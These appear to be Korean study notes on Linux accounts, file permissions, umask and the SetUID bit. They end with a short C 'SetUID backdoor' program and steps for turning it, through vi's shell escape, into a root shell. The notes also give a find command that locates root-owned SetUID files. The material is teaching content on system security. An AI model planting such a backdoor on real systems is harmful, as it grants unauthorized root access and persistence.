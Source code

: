 # 1. 리눅스의 계정과 권한
- 로그인
	username과 password로 **인증**을 하고, 그에 따른 **인가**를 받아서 시스템에 접근할 수 있도록 허가를 받는 과정.
- 시스템 해킹
	일반 사용자 권한 이상의 권한을 획득하는 절차
- 리눅스의 계정과 권한 종류 -> root라는 관리자 or 일반 사용자 계정
## 1.1 `/etc/passwd` 파일
- 계정 목록이 저장된 파일
![[Pasted image 20251014230904.png|500]]
1. 사용자 계정
2. 패스워드를 암호화해 `/etc/shadow` 파일에 저장했음을 나타냄
3. UID
4. GID
5. 사용자 이름, can be anything
6. 사용자 홈 디렉터리, root -> `/root` or 일반 사용자 -> `/home` 하위
7. 사용자 셸, default bash
## 1.2 ls -al 명령어 형식
![[Pasted image 20251014231555.png|400]]
1. 파일 속성 및 권한 표기
2. 해당 파일에 링크된 파일의 수
3. 파일 생성자 계정
4. 생성자 계정 그룹
### 1.2.1 파일 속성

| 문자  | 파일 속성             |
| --- | ----------------- |
| d   | 디렉터리 파일           |
| -   | 일반 정규 파일          |
| l   | 링크된 파일            |
| c   | 버퍼에 저장되지 않은 특수 파일 |
| b   | 버퍼링된 특수 파일        |
| s   | 소켓 파일             |
| p   | 파이프 파일            |

### 1.2.2 파일 권한
- 파일 소유자, 그룹, Others 별로 권한이 나뉨. ex) 위 이미지에선 rwx, r-x, r-x로 나뉨.
- r: 4(binary 100)
- w: 2(binary 10)
- x: 1(binary 1)
## 1.3 Default 권한
- **umask** 값에 의해 결정됨. `/etc/profile`, `.profile` 파일 등에서 설정됨.
	- by default, root -> `022`
	- user -> 002
	- root만 수정 가능
- Maximum default 권한은 **파일 -> 666** or **디렉터리 -> 777**
- umask를 빼면 -> 644, 755
## 1.4 파일 권한 수정
- `chmod 777 c.txt` 생성된 파일의 권한 수정
- `chown root c.txt` & `chgrp root c.txt` 파일의 소유자와 그룹 수정
# 2. SetUID
- 실행파일에 붙일 수 있는 특수 권한. 해당 권한이 있는 파일을 실행하면 프로세스의 EUID가 해당 파일 소유자의 UID로 바뀜.
- -> setuid를 사용해서 합법적인 권한 상승을 할 수 있다. 
- RUID, RGID, real...
- EUID EGID, effective...
- 일반적으로 처음 로그인 시, RUID <> EUID RGID <> EGID는 동일.
- 그러나 SetUID 비트가 설정된 프로그램 실행 시 불일치.
## 2.1 `/etc/shadow`
- 암호화된 password는 `/etc/shadow`에 저장됨.
- `/etc/shadow` 권한 -> `000` 따라서 root도 읽기 권한이 없지만, 소유자가 root라서 수정 및 접근은 가능.
- `passwd` 명령 실행 시 -> RUID 500, EUID 0
- `passwd` 명령 종료 시 -> RUID 500, EUID 500
	-> 이것이 SetUID 효과
## 2.2 파일 권한
- `passwd` 명령은 `rws r-x r-x` 권한. 여기서 s가 SetUID를 가리킴.
- SetUID 4000, SetGID 2000
## 2.3 기타
- `find / -user root -perm +4000`: 파일 소유자가 root with SetUID인 파일을 찾는 명령어
# 3. SetUID 백도어
```c
// vibackdoor.
#include <stdio.h>
main() {
	setuid(0);
	setgid(0);
	system("/bin/vi");
}
```
1. 위와 같은 파일을 컴파일 후 `chmod 4755 vibackdoor`로 SetUID 설정.
2. 그리고 파일 실행 후 < esc > `:!/bin/bash` 실행.
- 일반 유저 계정의 셸에서 root 소유의 vi editor 실행. -> SetUID를 통해 EUID(0) -> `setuid(0); setgid(0);` 
- -> root 권한을 가진 셸 획득